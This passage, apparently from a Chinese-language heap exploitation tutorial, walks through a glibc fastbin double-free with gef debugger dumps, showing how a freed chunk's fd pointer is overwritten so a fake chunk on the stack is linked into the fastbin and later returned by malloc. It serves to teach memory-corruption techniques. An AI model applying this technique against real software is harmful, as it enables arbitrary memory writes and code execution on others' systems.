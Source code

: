 三个 malloc 之后：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk a
0x602010:	0x4141414141414141	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1 <-- top chunk
0x602070:	0x0000000000000000
```
三个 free 之后：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk a [be freed twice]
0x602010:	0x0000000000602020	0x0000000000000000      <-- fd pointer
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b [be freed]
0x602030:	0x0000000000602000	0x0000000000000000      <-- fd pointer
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602030, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)  →  [loop detected]
```
这一次 malloc 之后，我们不再填充无意义的 "DDDDDDDD"，而是填充一个地址，即栈地址减去 0x8，从而在栈上伪造出一个 free 的 chunk（当然也可以是其他的地址）：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk d
0x602010:	0x00007fffffffdc30	0x0000000000000000      <-- fd pointer
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b [be freed]
0x602030:	0x0000000000602000	0x0000000000000000      <-- fd pointer
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
gef➤  p &stack_var 
$4 = (unsigned long long *) 0x7fffffffdc38
gef➤  x/5gx 0x7fffffffdc38-0x8
0x7fffffffdc30:	0x0000000000000000	0x0000000000000021 <-- fake chunk [seems to be freed]
0x7fffffffdc40:	0x0000000000602010	0x0000000000602010      <-- fd pointer
0x7fffffffdc50:	0x0000000000602030
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602030, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x7fffffffdc40, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602020, size=0x0, flags=) [incorrect fastbin_index]
```
可以看到，伪造的 chunk 已经由指针链接到 fastbins 上了。之后 malloc 两次，即可将伪造的 chunk 移动到链表头部：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x4646464646464646	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021
0x602030:	0x4545454545454545	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000021
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
```